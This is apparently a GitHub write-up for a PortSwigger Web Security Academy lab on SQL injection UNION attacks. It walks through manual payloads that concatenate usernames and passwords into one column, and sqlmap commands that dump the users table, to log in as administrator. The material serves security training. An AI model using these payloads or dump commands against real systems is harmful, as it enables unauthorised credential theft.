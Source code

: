 \+ Lab #6    : SQL injection UNION attack, retrieving multiple values in a single column\
\+ Lab Level : Practitioner\
\+ Link      : https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.<br/>
The database contains a different table called ```users```, with columns called ```username``` and ```password```. 
To solve the Lab, perform a [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) to retrieve all usernames and passwords.

## End Goal: 
Log in as the ```administrator``` user.

## Detection:
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an internal error
* The resulting query sent by the App to the back-end databases should look to something like:
```SQL
SELECT * FROM products WHERE category = 'Gifts''
```
* The App should return a ```500 Internal Server Error```, which means that an error has occured in the back-end database while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
> 📝: **HACK STEPS:** <br/>
> 1° Determine the number of columns that are being returned by the original query <br/>
> 2° Determine the columns that contains string data <br/>
> 3° Retrive data from ```users``` tables

#### Number of columns:
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Start by injecting the ```category``` parameter with ```Gifts'+UNION+SELECT+NULL--``` which will return an error
4. And then ```Gifts'UNION+SELECT+NULL,NULL--``` which will return the results of the original query (Selecting content for product ```Gifts```) <br/>
> 📍 ***The number of columns is then ```2```***

#### Columns containing text:
1. Inject the ```category``` parameter with the following payload ```'+UNION+SELECT+'a',NULL--``` <br/>
      => If an ```Internal Server Error``` occurs, then the first column does not contain string type data.
2. And then, inject the vulnerable parameter with ```'+UNION+SELECT+NULL,'a'--``` <br/>
      => If an ```Internal Server Error``` is returned, then the second column does not contain string type data.

> 📍 ***In this Lab, the second column contain string data.*** 

#### Retrieving data:
* Since we know that there is a table called ```users``` that has two columns ```username``` and ```password``` and that we only have one column that return string data which we can control to fetch entries for table ```users```, we can the ```CONCAT``` clause <br/>
* For example, we can send the following payload: ```'+UNION+SELECT+NULL,CONCAT(username, ':', password)+FROM+users--```, which will return the usernames and passwords seperated with a colon ```:```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)

* We can also do some cool stuff with ```CONCAT``` like sending the following payload: 
```SQL
'+UNION+SELECT+NULL,CONCAT('The password of ', username, ' is : ', password)+FROM+users--
``` 
![2023-02-24 07_34_40-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221109005-61fb30cb-537c-465a-afae-3d72e9d8ba90.png)

* We can also use the ```||``` to concat the results, for example:
```SQL
'+UNION+SELECT+NULL,username||':'||password+FROM+users--
```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)

#### Solving the Lab: 
* Now that we have dumped the credentials, we can go to ```/login``` and login as the ```Administrator``` user and solve the lab !!
![Login](https://user-images.githubusercontent.com/101610095/221110694-536b8bc1-c9de-4a38-8bd4-da3b75f997fd.png)

### Automated:
#### SQLmap:

##### Fetching Databases names:
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 --dbs --batch
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --proxy=http://127.0.0.1:8080 : Using BurpSuite proxy for debugging purposes <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -u : Target URL <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -p : Testable parameter <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --technique=U : SQL Injection technique to use. Here i'm using the UNION technique <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --threads : Maximum number of concurrent HTTP requests (default 1) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --level : Level of test to perform (5 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --risk : Risk of test to perform (3 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dbs : Enumerate databases (schema) names <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --batch : Never ask for user input, use the default behavior <br/>

* Execution:
![2023-02-24 08_00_33-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113676-d7224171-9ec8-442d-b008-e663e506c820.png)<br/>

##### Dumping data from table 'users' in database 'public':
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --dump --batch 
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dump : Dump database table entries <br/>

* Execution: <br/>
![2023-02-24 07_58_23-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113993-b9113a42-353a-4d27-88a3-377850614303.png)

#### Python3:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%235/Lab-5.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-6.py --help
usage: Lab-6.py [-h] -u URL [-n]

Usage Example: python3 Lab-6.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```

